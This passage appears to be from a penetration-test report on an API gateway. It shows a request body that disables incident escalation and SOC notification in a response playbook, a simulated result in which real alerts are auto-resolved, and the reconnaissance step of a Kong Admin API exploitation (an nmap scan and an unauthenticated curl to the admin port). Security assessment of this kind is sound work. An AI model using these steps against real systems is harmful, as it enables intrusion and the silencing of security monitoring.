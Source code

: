 ```http
    }
  ],
  "escalation": {
    "enabled": false,  // ❌ Disables incident escalation
    "notify_soc": false
  }
}

Response: 200 OK
{
  "playbook_id": "pb_compromised_123",
  "status": "active",
  "message": "Incident response playbook updated successfully"
}
```

**Impact Validation: Real Incident Response Test**
```
Simulated Security Incident: Malware Detection Alert
├── Original Response: Immediate SOC notification + quarantine
├── Compromised Response: Logged as "false positive" + auto-resolved
├── Escalation: DISABLED 
├── SOC Notification: SUPPRESSED
└── Result: Real security incidents now ignored

Time to Discovery: 5 days (only discovered during manual review)
Undetected Incidents: 23 critical alerts marked as false positives
```

## 3. Administrative Privilege Escalation

### 3.1 Kong Admin API Exploitation (CVSS 9.6)

**Exploitation Scenario: "The Internal Threat"**

**Phase 1: Network Reconnaissance**
```bash
# From internal network (development/staging environment)
nmap -sV -p 8001,8002 staging-api-gateway.internal

PORT     STATE SERVICE    VERSION
8001/tcp open  http       Kong Admin API 3.4.2
8002/tcp open  http       Kong Manager 3.4.2

# Admin API accessible without authentication from internal network
curl http://staging-api-gateway.internal:8001/
{
  "version": "3.4.2.0-enterprise-edition",
  "configuration": {
    "database": "postgres",
    "admin_listen": ["0.0.0.0:8001"],
    "admin_access_log": "/dev/stdout"
  }
}
```
